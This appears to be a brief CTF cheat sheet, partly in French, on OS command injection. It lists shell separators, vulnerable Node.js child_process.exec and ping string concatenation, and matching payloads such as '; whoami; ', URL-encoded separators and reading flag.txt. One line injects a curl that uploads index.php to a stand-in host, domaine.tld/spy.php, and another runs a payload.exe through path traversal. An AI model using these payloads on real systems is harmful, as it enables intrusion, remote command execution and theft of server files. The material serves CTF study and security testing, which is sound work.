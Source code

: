 # injection commands
System Command Execution Functions

The following are some of the functions that would so:


## CTF

ip=127.0.0.1%0acurl -F 'index=@./index.php' http://domaine.tld/spy.php

## append
;, &, &&, |, ||, 0x0a, \n

## binaire Windows 

 & ..\\..\\..\\..\\..\\..\Users\\C:\Users\Cortin\payload.exe
 
## exemple linux:

 code : child_process.exec("echo '" + input + "'")
injection : '; whoami; '

## commenter la fin:

'; whoami; #

## s'assurer que les quotes soit fermées:

child_process.exec("echo 'user: " + "';whoami; '" + "'")

## échaper les chars spéciaux:

child_process.exec("echo 'user: " + "'; echo \"test\"; '" + "'")

## parfois: encoder en url:

`# -> %23`

## exemple: 

code: 'ping -c 1 "' + ip + '"'
injection: ?ip=127.0.0.1";"
injection:?ip=127.0.0.1";%20cat%20flag.txt"
 

